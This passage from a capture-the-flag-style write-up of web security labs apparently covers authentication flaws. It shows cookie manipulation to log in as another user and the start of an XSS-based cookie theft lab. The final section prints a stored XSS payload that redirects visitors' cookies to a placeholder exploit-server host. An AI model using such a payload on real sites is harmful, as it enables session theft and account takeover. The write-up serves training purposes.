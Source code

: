 ![](/assets/images/Authentication/Pasted%20image%2020251014185435.png)

Turns out we must remove the id parameter from the `GET` request. 

![](/assets/images/Authentication/Pasted%20image%2020251014185636.png)

Running this again gave me too many `302 FOUND`.

![](/assets/images/Authentication/Pasted%20image%2020251014185715.png)

In the background I got the popup that the lab was solved despite the fact that the username on screen is still `wiener`.

![](/assets/images/Authentication/Pasted%20image%2020251014185733.png)

In order to fix this, I found the request that gave `200 OK`.

![](/assets/images/Authentication/Pasted%20image%2020251014185808.png)

I then edited the `stay-logged-in` cookie from browser's dev tools and removed the session cookie.

![](/assets/images/Authentication/Pasted%20image%2020251014185841.png)

I then reloaded the page and got username as `carlos` on my screen. The lab is now truly solved.

![](/assets/images/Authentication/Pasted%20image%2020251014185959.png)


### 10. Offline password cracking

Description:

The lab says that there is a stored XSS in the comments through which we must steal the cookie and crack the password for the user carlos. Then we must log in as carlos and delete his account.

![](/assets/images/Authentication/Pasted%20image%2020251014190139.png)

Explanation:

We login to the application and leave a regular `<script>alert(1)</script>` payload in the comments.

![](/assets/images/Authentication/Pasted%20image%2020251014190441.png)

We get the XSS popup, confirming the vulnerability.

![](/assets/images/Authentication/Pasted%20image%2020251014190423.png)

Next we find the URL for our exploit server.

![](/assets/images/Authentication/Pasted%20image%2020251014190600.png)

We paste the below payload in the comment to steal the cookie from every visitor on the page.

```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
